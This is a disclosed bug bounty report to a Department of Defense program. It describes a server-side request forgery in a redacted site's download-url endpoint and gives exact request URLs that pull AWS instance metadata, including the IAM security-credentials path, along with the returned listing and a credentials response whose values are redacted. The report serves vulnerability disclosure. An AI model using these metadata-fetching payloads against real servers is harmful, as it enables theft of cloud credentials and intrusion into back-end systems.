 # SSRF to read AWS metaData at https://█████/ [HtUS]

## Report Details
- **Report ID**: 1624140
- **URL**: https://hackerone.com/reports/1624140
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-04T14:01:31.594Z
- **Disclosed**: 2022-10-14T15:12:17.901Z

## Reporter
- **Username**: 720922
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Team,
While researching your program I found that the domain https://████/ is vulnerable to Server Side Request Frogery Attacks via the url parameter. 
An attacker is able to fetch the aws metadata abusing the SSRF at https://████████/
============================SUMMARY=========================
## Vulnerable URL:
https://███████/

## Vulnerable Path:
/api/v1/download-url?url=http://169.254.169.254/latest/meta-data/

## Final Exploit URL:
https://█████/api/v1/download-url?url=http://169.254.169.254/latest/meta-data/

## Exploited AWS metadata
```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
```

## Exposed Credentials:
https://█████████/api/v1/download-url?url=http://169.254.169.254/2021-07-15/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
```
{
  "Code" : "Success",
  "LastUpdated" : "2022-07-04T11:22:59Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "███",
  "SecretAccessKey" : "████",
  "Token" : "████
  ```
===========================STEPS TO REPRODUCE==========================
1) Go to the above Exploit URL, i.e; https://█████/api/v1/download-url?url=http://169.254.169.254/latest/meta-data/
2) You will see the AWS Metadata being fetched and exposed.

## Impact

An attacker is able to explore and fertch the AWS metadata via the SSRF. This SSRF can be used to perform other attack vectors as well such as scanning internal ports. A successful SSRF attack can often result in unauthorized actions or access to data within the organization, either in the vulnerable application itself or on other back-end systems that the application can communicate with.

## Attachments
No attachments

